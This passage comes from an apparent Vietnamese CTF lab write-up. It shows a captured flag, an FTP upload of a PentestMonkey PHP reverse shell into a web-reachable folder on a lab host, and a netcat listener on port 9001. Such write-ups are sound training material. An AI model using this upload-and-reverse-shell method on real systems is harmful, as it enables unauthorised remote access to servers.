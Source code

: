 ```python
┌──(root㉿kali)-[/home/kali]
└─# cat flag2.txt                                                     
FLAG{ftp_you_and_me}
```

## RCE

### Flag 3

Quay lại ftp một chút thì tôi còn có 1 folder tên `files` bên trong. Vậy thì tôi có thể tải RCE lên đó và mở nó trên web

Vì web dùng php nên tôi sẽ sử dụng [**PentestMonkey** shell](https://www.revshells.com/) cho đơn giản.

Tạo file `revshell.php`, sao chép toàn bộ code RCE về, lưu nó lại và tải nó lên ftp 

```python
┌──(root㉿kali)-[/home/kali]
└─# ftp 10.10.80.186      
Connected to 10.10.80.186.
220 (vsFTPd 3.0.3)
Name (10.10.80.186:kali): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd files
250 Directory successfully changed.
ftp> put revshell.php 
local: revshell.php remote: revshell.php
229 Entering Extended Passive Mode (|||49612|)
150 Ok to send data.
100% |********************************************************************************|  2593        9.40 MiB/s    00:00 ETA
226 Transfer complete.
2593 bytes sent in 00:00 (5.91 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||40158|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001         2593 Jul 28 10:42 revshell.php
226 Directory send OK.
ftp> 
```

Tạo listener với port 9001

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 9001    
listening on [any] 9001 ...

```
